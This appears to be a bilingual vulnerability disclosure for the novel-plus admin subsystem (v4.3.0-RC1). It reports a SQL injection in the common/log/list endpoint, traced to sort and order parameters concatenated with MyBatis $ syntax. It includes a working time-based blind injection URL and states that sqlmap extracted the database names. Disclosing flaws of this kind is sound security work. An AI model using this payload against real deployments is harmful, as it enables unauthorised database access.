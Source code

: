 
# The common/log/list interface of the novel-admin subsystem in the novel-plus system has SQL injection vulnerability.

# novel-plus系统novel-admin子系统common/log/list接口存在SQL注入

#### official website: https://novel.xxyopen.com/index.htm
 
#### github: https://github.com/201206030/novel-plus
 
#### Affected version: v4.3.0-RC1
 
#### releases：https://github.com/201206030/novel-plus/releases/tag/v4.3.0-RC1
 

Payload: 
```
http://127.0.0.1:8088/common/log/list?limit=10&offset=0&sort=gmt_create AND (SELECT 1155 FROM (SELECT(SLEEP(5)))YVhZ)&order=desc&operation=&username=
```

Use sqlmap for verification, and retrieve all the database names.

使用sqlmap验证，跑出所有库名：

> information_schema<br>
> novel_plus

![image.png](https://cdn.nlark.com/yuque/0/2024/png/3014908/1705300429943-63dd8aa9-b069-4ef9-865a-f35097ebb128.png#averageHue=%23131313&clientId=uf69594bc-e91d-4&from=paste&height=585&id=u90d64431&originHeight=790&originWidth=2204&originalType=binary&ratio=1.3499999046325684&rotation=0&showTitle=false&size=143888&status=done&style=none&taskId=u9eba4599-6ba6-4cf1-b98e-fb6f63c990a&title=&width=1632.5927079230914)

The list interface in LogController calls the queryList method from LogService to query logs.

LogController中list接口调用LogService的queryList方法查询日志；

novel-admin/src/main/java/com/java2nb/common/controller/LogController.java

![image.png](https://cdn.nlark.com/yuque/0/2024/png/3014908/1705298345047-65504545-cadc-4f7e-a387-3bf27d45e880.png#averageHue=%232e2c2b&clientId=uac25bd4d-4807-4&from=paste&height=649&id=ua4f4b94c&originHeight=876&originWidth=1072&originalType=binary&ratio=1.3499999046325684&rotation=0&showTitle=false&size=117700&status=done&style=none&taskId=u4da64b9d-e333-4cb9-9c65-9fe8dec5cc1&title=&width=794.0741301694891)

LogServiceImpl calls logMapper to query the logs.

LogServiceImpl中调用logMapper查询日志；

novel-admin/src/main/java/com/java2nb/common/service/impl/LogServiceImpl.java

![image.png](https://cdn.nlark.com/yuque/0/2024/png/3014908/1705298425700-17707c68-bd80-4c5e-bde7-906a3613a22a.png#averageHue=%232e2c2b&clientId=uac25bd4d-4807-4&from=paste&height=651&id=ud9f5f2e3&originHeight=879&originWidth=1030&originalType=binary&ratio=1.3499999046325684&rotation=0&showTitle=false&size=112809&status=done&style=none&taskId=u65d05bc8-812c-47f2-a42e-7c78c32fc53&title=&width=762.9630168606099)

In LogMapper, the usage of the $ symbol to concatenate the sort parameter and the order parameter results in an SQL injection vulnerability.

LogMapper中sort参数和order参数使用了$符号来拼接，导致存在SQL注入漏洞；

novel-admin/src/main/resources/mybatis/common/LogMapper.xml

![image.png](https://cdn.nlark.com/yuque/0/2024/png/3014908/1705298554780-94226292-b6f7-441e-96c3-67407b1b25b0.png#averageHue=%2354513a&clientId=uac25bd4d-4807-4&from=paste&height=861&id=u2a7f34e0&originHeight=1162&originWidth=1652&originalType=binary&ratio=1.3499999046325684&rotation=0&showTitle=false&size=247962&status=done&style=none&taskId=u985f88b1-2de8-4f2b-b0ec-95e569ef91c&title=&width=1223.7037901492502)






